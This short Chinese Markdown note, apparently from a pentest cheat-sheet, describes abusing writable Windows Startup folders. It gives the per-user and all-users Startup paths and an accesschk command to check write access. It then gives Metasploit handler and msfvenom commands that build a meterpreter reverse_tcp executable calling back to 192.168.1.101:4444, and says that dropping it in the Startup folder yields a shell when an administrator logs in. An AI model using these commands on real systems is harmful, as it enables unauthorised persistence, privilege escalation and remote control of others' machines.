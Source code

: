 ```yaml
---
title: 可修改的开机自启文件夹
categories:
- windows
tags:
- windows
---
```


## 自启文件夹
单用户的自启文件夹
```
C:\Users\用户名\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```
所有用户的自启文件夹
```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```
## 查看权限
```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
---

```

## 生成攻击载荷
```
msfconsole
handler -H 192.168.1.101 -P 4444 -p windows/x64/meterpreter/reverse_tcp

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=4444 -f exe -o payload.exe
```
将payload.exe放在startup文件夹下，当管理员登陆，即可获得shell。
